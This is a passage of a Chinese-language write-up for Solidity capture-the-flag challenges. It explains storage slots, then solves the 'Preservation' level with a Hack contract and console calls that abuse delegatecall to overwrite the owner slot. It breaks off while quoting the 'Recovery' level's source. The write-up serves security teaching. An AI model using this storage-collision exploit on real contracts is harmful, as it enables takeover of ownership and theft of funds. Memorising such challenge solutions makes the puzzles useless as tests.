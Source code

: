 2. abi.encodePacked()
abi.encodePacked是 Solidity 中的一种 ABI 编码函数，它会将输入的参数按顺序进行紧凑编码，不进行填充。例如，如果 setTimeSignature 是 0x12345678，而 _timeStamp 是 0x5f3759df，那么 abi.encodePacked(setTimeSignature, _timeStamp) 将生成 0x123456785f3759df。
3. 库合约
库合约（Library Contract）在 Solidity 中是一种特殊类型的合约，用于提供可重用的代码片段。库合约与普通合约的主要区别在于它们不能保存状态（即不能有状态变量），也不能接收以太币。库合约通常用于实现常用的功能或逻辑，以便其他合约可以调用这些功能，从而避免代码重复。
4. 合约中的变量是如何存储和访问的
在 Solidity 中，合约中的状态变量是通过存储槽（slot）来存储和访问的。每个状态变量都有一个唯一的存储槽位置，EVM（以太坊虚拟机）通过这些槽来存储和检索变量的值。
存储槽（Storage Slot）：
  - 每个状态变量在合约中都有一个唯一的存储槽位置。槽的位置是根据变量声明的顺序自动分配的。
  - 例如，第一个声明的状态变量位于槽 0，第二个位于槽 1，以此类推。
变量名访问：
  - 在 Solidity 代码中，变量是通过变量名来访问的。编译器会将变量名映射到相应的存储槽位置。
  - 当你访问或修改变量时，编译器会自动生成相应的 EVM 指令来读取或写入正确的存储槽。
### 解题思路&过程
1. 在Preservation 合约，有四个变量，setFirstTime() 和 setSecondTime() 都是用 delegatecall 到 LibraryContract 设定新的 storedTime 。由于delegatecall 引起的状态改变发生在Preservation 合约内，LibraryContract合约中的 storedTime 位于slot0的位置，因此实际上是改到Preservation 合约位于slot 0 位置的 timeZone1Library ，利用这一点，我们可以任意写timeZone1Library对应的地址。让delegatecall修改第三个存储槽，该存储槽存储着owner状态.
2. 部署攻击合约，获取合约地址--0xeEE182e59a1D0C2c71797Fd168518582E86bb55e
```solidity
pragma solidity ^0.8.0;
contract Hack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public hackOwner; 
    function setTime(uint _time) public {
        //修改第三个槽的值
        hackOwner = address(uint160(_time));
    }
}
```
3. 在控制台await contract.setFirstTime('0xeEE182e59a1D0C2c71797Fd168518582E86bb55e'),通过这一步，修改timeZone1Library为恶意合约的地址
4. 然后再控制台await contract.setFirstTime(player)，将第三个槽的地址换成自己的地址
5. 提交
### 第十七题 Recovery
### 题目
合约创建者构建了一个非常简单的代币工厂合约。 任何人都可以轻松创建新代币。 在部署了一个代币合约后，创建者发送了 0.001 以太币以获得更多代币。 后边他们丢失了合约地址。如果您能从丢失的的合约地址中找回(或移除)，则顺利通过此关。
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        //会创建一个新的 SimpleToken 合约实例，并将 _name、调用者地址（msg.sender）和 _initialSupply 传递给它。
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    //地址到代币数量的映射
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
```